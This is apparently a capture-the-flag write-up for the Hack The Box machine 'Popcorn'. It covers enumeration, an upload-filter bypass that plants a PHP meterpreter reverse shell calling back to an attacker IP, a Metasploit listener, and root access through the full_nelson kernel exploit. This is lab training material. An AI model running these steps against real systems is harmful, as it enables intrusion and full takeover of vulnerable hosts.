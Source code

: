 # Popcorn 10.10.10.6


- Linux 2.6.31-14
- Bittornado exploit : file upload (xx.php.png)
- Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 https://www.exploit-db.com/exploits/15704
- Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.



## nmap
````
$ nmap -A 10.10.10.6
````
=> 80

## dirb -> bittornado
````
$ dirb http://10.10.10.6
http://10.10.10.6/torrent/
````
Bittornado is a torrent client. 

## Bittornado exploit : file upload (xx.php.png)

Register an account
Upload a torrent
Submit a screenshot : need to upload a .png file

Rename .php => .php.png 

Build a .php reverse shell
````
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw  > 123.php.png
````

Intercept the Post with Burp
Rename 123.php.png to 123.php
Meterpreter is uploaded... where ?

````
dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 
````
## Get meterpreter

Prepare a listener
````
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.3
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
````

## Pric esc : full_nelson

=> Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
Exploit 3 CVE: CVE-2010-4258, CVE-2010-3849, CVE-2010-3850
Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.
````
https://www.exploit-db.com/exploits/15704
````


upload 15704.c
shell
````
gcc 15704.c -o exploit
chmod 755 exploit
./exploit
id
uid=0(firefart)
cat /root/root.txt
````
 


